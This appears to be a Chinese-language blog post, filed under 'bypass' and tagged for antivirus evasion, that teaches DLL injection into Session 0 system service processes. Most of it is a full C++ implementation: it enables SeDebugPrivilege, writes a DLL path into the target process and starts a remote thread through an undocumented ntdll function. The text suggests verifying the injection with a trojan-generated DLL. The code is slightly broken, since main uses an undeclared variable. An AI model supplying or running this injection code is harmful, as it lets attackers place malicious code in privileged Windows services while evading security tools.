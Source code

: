 ```yaml
---
layout: post
title: 突破SESSION 0隔离的远程线程注入
categories: bypass
description: bypass 之 突破SESSION 0隔离的远程线程注入
keywords: Windows，远程线程注入，免杀，bypass
---
```


突破SESSION 0隔离的注入

# 突破SESSION 0隔离的远程线程注入

## 一、Session介绍

在Windows XP、Windows Server 2003，以及更老版本的Windows操作系统中，服务和应用程序使用相同的会话（Session）运行，而这个会话是由第一个登录到控制台的用户启动的。该会话就叫做Session 0。

在Windows Vista之前，Session 0不仅包含服务，也包含标准用户应用程序。

将服务和用户应用程序一起在Session 0中运行会导致安全风险，因为服务会使用提升后的权限运行，而用户应用程序使用用户特权（大部分都是非管理员用户）运行，这会使得恶意软件以某个服务为攻击目标，通过“劫持”该服务，达到提升自己权限级别的目的。

从Windows Vista开始，只有服务可以托管到Session 0中，用户应用程序和服务之间会被隔离，并需要运行在用户登录到系统时创建的后续会话中。例如第一个登录的用户创建 Session 1，第二个登录的用户创建Session 2，以此类推

## 二、实现原理

ZwCreateThreadEx函数可以突破SESSION 0 隔离，将DLL注入到SESSION 0 隔离的系统服务进程中。

CreateRemoteThread底层实际上也是通过ZwCreateThreadEx函数实现线程创建的。CreateRemoteThread注入系统进程会失败的原因是因为调用ZwCreateThreadEx创建远程线程时，第七个参数CreateThreadFlags为1。

使用CreateRemoteThread注入失败DLL失败的关键在第七个参数CreateThreadFlags， 他会导致线程创建完成后一直挂起无法恢复进程运行，导致注入失败。而想要注册成功，把该参数的值改为0即可。

由于在ntdll.dll中，ZwCreateThreadEx并没有被声明，因此需要使用GetProcAddress导出地址。

## 三、编码实现

```c++
#include "Windows.h"
#include <stdio.h>
 
BOOL ZwCreateThreadExInjectDLL(DWORD dwProcessId, const char* pszDllFileName) {
    HANDLE hProcess = NULL;
    SIZE_T dwSize = 0;
    LPVOID pDllAddr = NULL;
    FARPROC pFuncProcAddr = NULL;
    HANDLE hRemoteThread = NULL;
    DWORD dwStatus = 0;
 
    // 打开进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
    if (NULL == hProcess) {
        printf("Error OpenProcess:%d", GetLastError());
        return FALSE;
    }
 
    // 申请内存
    dwSize = 1 + ::lstrlen(pszDllFileName);
    pDllAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (pDllAddr == NULL){
        printf("Error VirtualAllocEx:%d", GetLastError());
         return FALSE;
    }
 
    // 写入数据
    if (FALSE == WriteProcessMemory(hProcess, pDllAddr, pszDllFileName, dwSize, NULL)) {
        printf("Error WriteProcessMemory:%d", GetLastError());
        return FALSE;
    }
 
#ifdef _WIN64
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        ULONG CreateThreadFlags,
        SIZE_T ZeroBits,
        SIZE_T StackSize,
        SIZE_T MaximumStackSize,
        LPVOID pUnkown);
#else
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        BOOL CreateSuspended,
        DWORD dwStackSize,
        DWORD dw1,
        DWORD dw2,
        LPVOID pUnkown);
#endif
 
    // 加载ntdll.dll
    HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
    if (NULL == hNtdllDll) {
        printf("Error Load 'ntdll.dll':%d", GetLastError());
        return FALSE;
    }
 
    // 获取LoadLibraryA函数地址
    pFuncProcAddr = GetProcAddress(::GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (NULL == pFuncProcAddr) {
        printf("Error GetProcAddress 'LoadLibraryW':%d", GetLastError());
        return FALSE;
    }
 
    // 获取ZwCreateThreadEx函数地址
    typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
    if (NULL == ZwCreateThreadEx) {
        printf("Error GetProcAddress 'ZwCreateThreadEx':%d", GetLastError());
        return FALSE;
    }
 
    // 使用ZwCreateThreadEx创建远线程，实现DLL注入
    dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDllAddr, 0, 0, 0, 0, NULL);
    if (NULL == hRemoteThread) {
        printf("Error Inject DLL:%u", dwStatus);
        return FALSE;
    }
    CloseHandle(hProcess);
    FreeLibrary(hNtdllDll);
 
    return TRUE;
}
 
// OpenProcess打开高权限的进程需要提权
BOOL EnbalePrivileges(HANDLE hProcess, const char* pszPrivilegesName)
{
     HANDLE hToken = NULL;
     LUID luidValue = { 0 };
     TOKEN_PRIVILEGES tokenPrivileges = { 0 };
     BOOL bRet = FALSE;
     DWORD dwRet = 0;
     // 打开进程令牌并获取进程令牌句柄
     bRet = ::OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);
     if (FALSE == bRet)
     {
         printf("OpenProcessToken");
         return FALSE;
     }
     // 获取本地系统的 pszPrivilegesName 特权的LUID值
     bRet = ::LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);
     if (FALSE == bRet){
         printf("LookupPrivilegeValue");
         return FALSE;
     }
     // 设置提升权限信息
     tokenPrivileges.PrivilegeCount = 1;
     tokenPrivileges.Privileges[0].Luid = luidValue;
     tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
     // 提升进程令牌访问权限
     bRet = ::AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);
     if (FALSE == bRet){
         printf("AdjustTokenPrivileges");
         return FALSE;
     }
     else{
         // 根据错误码判断是否特权都设置成功
         dwRet = ::GetLastError();
         if (ERROR_SUCCESS == dwRet){
             printf("SUCCESS!!");
             return TRUE;
         }
         else if (ERROR_NOT_ALL_ASSIGNED == dwRet){
             printf("ERROR_NOT_ALL_ASSIGNED");
             return FALSE;
         }
     }
     return FALSE;
 }
 
 
int main() {
    // 提升当前进程令牌权限
    HANDLE hProcess = GetCurrentProcess();
    EnbalePrivileges(hProcess, SE_DEBUG_NAME);
 	// 远线程注入 DLL
#ifndef _WIN64
    const char* dllPath = "E:\\Dll1.dll";
    ZwCreateThreadExInjectDLL(2940, dllPath);
#else    
    const char* dllPath = "E:\\Dll1.dll";
    ZwCreateThreadExInjectDLL(2940, dllPath);
#endif
	if (FALSE == bRet)
	{
		printf("Inject Dll Error.\n");
	}
	printf("Inject Dll OK.\n");
    return 0;
}
```

在这里无法通过MessageBox判断是否注入成功。由于会话隔离，在系统程序中不能显示程序窗体，也不能用常规方式来建立用户进程。所以这里最好使用马生成的dll来判断DLL是否注入成功。

## 四、步骤总结

①打开注入进程，获取进程句柄
		②在注入的进程申请内存地址
		③写入内存地址
		④加载ntdll，获取LoadLibraryA函数地址
		⑤获取ZwCreateThreadEx函数地址
		⑥使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入

## 五、注意事项

①需要使用管理员权限

②由于会话隔离，在系统服务程序里不能显示程序窗体，也不能用常规方式创建用户进程，进程注入dll使用MessageBox，会无法显示

③ZwCreateThreadEx函数在32位和64位系统下，其函数声明中的参数是有区别的，一定要区分开